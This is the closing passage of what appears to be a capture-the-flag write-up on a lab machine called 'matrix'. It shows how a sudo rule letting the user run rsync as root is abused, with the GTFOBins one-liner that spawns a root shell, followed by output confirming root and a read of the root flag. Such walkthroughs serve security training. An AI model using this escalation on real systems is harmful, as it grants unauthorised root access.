We can execute `rsync` as the root user. Thanks to `gtfobins`, we find a way to escalate privileges to root.

![alt text](../../assets/images/matrix/image-17.png)

We execute it and obtain a root shell, allowing us to read the final flag.

```bash
smith@matrix:~$ sudo rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
# cat /root/root.txt
5XXXXXXXXXXXXXXXXXa
# 
```

That’s it.

I hope you enjoyed this, learned something new, or at least had fun solving the mystery of entering "The Mind" of the Matrix. 😉
